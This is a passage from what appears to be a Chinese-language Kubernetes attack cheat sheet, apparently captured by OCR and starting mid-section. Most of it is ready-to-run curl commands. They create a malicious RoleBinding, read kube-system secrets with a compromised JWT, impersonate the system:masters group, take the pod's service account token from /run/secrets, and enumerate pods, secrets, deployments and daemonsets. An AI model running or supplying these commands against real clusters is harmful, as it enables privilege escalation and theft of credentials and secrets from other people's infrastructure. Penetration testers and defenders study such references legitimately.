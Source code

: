 ```powershell
}
```

```powershell
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings -d @malicious-RoleBinging.json
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>" -H "Content-Type: application/json" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

[Kubernetes Pod 权限提升](https://labs.bishopfox.com/tech-blog/bad-pods-kubernetes-pod-privilege-escalation)

### 伪装特权账户

```powershell
curl -k -v -XGET -H "Authorization: Bearer <JWT 令牌（伪装者）>" -H "Impersonate-Group: system:masters" -H "Impersonate-User: null" -H "Accept: application/json" https://<主节点IP>:<端口>/api/v1/namespaces/kube-system/secrets/
```

## 特权服务账户令牌

```powershell
$ cat /run/secrets/kubernetes.io/serviceaccount/token
$ curl -k -v -H "Authorization: Bearer <jwt_token>" https://<主节点IP>:<端口>/api/v1/namespaces/default/secrets/
```

## 可以访问的有趣端点

```powershell
# 列出Pods
curl -v -H "Authorization: Bearer <jwt_token>" https://<主节点IP>:<端口>/api/v1/namespaces/default/pods/

# 列出secrets
curl -v -H "Authorization: Bearer <jwt_token>" https://<主节点IP>:<端口>/api/v1/namespaces/default/secrets/

# 列出deployments
curl -v -H "Authorization: Bearer <jwt_token>" https://<主节点IP>:<端口>/apis/extensions/v1beta1/namespaces/default/deployments

# 列出daemonsets
curl -v -H "Authorization: Bearer <jwt_token>" https://<主节点IP>:<端口>/apis/extensions/v1beta1/namespaces/default/daemonsets
```

## 你应该知道的API地址

*(外部网络可见性)*
